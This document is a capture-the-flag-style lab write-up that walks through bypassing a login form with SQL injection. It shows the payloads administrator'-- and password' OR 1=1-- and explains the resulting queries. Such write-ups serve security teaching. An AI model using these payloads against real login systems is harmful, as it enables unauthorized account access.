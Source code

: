 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/3d55e63d-dcdb-4972-b78e-fd7d1644b826)

Let's login using the following credentials:


| Username | Password |
| -------- | -------- |
| test         | test         |

The resultant SQL query will be:

```
SELECT username FROM users WHERE username = 'test' AND password = 'test'
```

This will obviously not log us in as the administrator.

## Method 1

We can next try the following credentials:

| Username | Password |
| -------- | -------- |
| administrator'--         | password         |

The resultant SQL query will be:

```
SELECT username FROM users WHERE username = 'administrator'--' AND passsword = 'password'

## Queried part:
SELECT username FROM users WHERE username = 'administrator'

## Commented part:
' AND passsword = 'password'
```

Since we are commenting out the WHERE clause that requires the password, we will be logged in even if the password is not `password`.

## Method 2

We can next try the following credentials:

| Username | Password |
| -------- | -------- |
| administrator         | password' OR 1=1--         |

The resultant SQL query will be:

```
SELECT username FROM users WHERE username = 'administrator' AND passsword = 'password' OR 1=1--'

## Queried part:
SELECT username FROM users WHERE username = 'administrator' AND passsword = 'password' OR 1=1

## Commented part:
'
```

Since the result of 1=1 is always `true/1` and anything OR with 1 is 1, the query will always be executed even if the password isn't `password`.

![6](https://github.com/Knign/Write-ups/assets/110326359/bb092920-9e71-4bec-9962-4be51d367861)

We have solved the lab.

![7](https://github.com/Knign/Write-ups/assets/110326359/a3977cd1-0bef-49e6-bc77-8806b451594c)
